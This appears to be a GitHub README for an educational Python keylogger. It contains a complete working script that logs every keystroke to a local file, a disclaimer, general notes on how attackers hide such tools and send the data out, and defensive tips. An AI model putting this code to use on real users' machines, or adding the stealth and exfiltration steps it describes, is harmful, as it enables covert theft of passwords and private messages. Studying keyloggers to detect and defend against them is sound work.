 # Python Keylogger

This is a simple Python script that logs keyboard activity using the `pynput` library. It records keystrokes and saves them to a local file called `keyfile.txt`.

This tool is intended solely for educational and ethical testing purposes — such as learning how keyloggers function, how they can be detected, and how to defend against them.

---

## Disclaimer

**This project is for educational use only.**  
Do not run this script on any system without explicit written permission from the owner. Unauthorized use may violate local, state, or federal laws.

---

## How It Works

- Listens for keyboard input using `pynput.keyboard`
- Logs printable characters to `keyfile.txt`
- Records special keys like `Enter`, `Tab`, `Shift` as `[Key.enter]`, `[Key.shift]`, etc.
- Stops listening when the Escape key is pressed

### Code Overview

```python
from pynput import keyboard 

def key_pressed(key):
    print(str(key))
    with open("keyfile.txt", 'a') as logkey:
        try:
            logkey.write(key.char)
        except AttributeError:
            logkey.write(f'[{key}]')

def on_release(key):
    # Stop listener if Esc is pressed
    if key == keyboard.Key.esc:
        return False

if __name__ == "__main__":
    with keyboard.Listener(on_press=key_pressed, on_release=on_release) as listener:
        listener.join()

```
## Why Keyloggers Are Dangerous
Keyloggers are often hidden and run silently in the background. Malicious actors can:
- Embed them into system startup scripts or schedule them using tools like Task Scheduler
- Capture sensitive data, such as passwords and personal messages
- Use misleading process names to avoid detection in the Task Manager
- Exfiltrate logged data to remote servers

## How to Protect Against Keyloggers
- Use up-to-date antivirus or anti-malware software
- Regularly check running processes in Task Manager or a system monitor
- Monitor for unusual file changes or log generation
- Educate users on phishing and software hygiene
- Implement application whitelisting and least-privilege policies
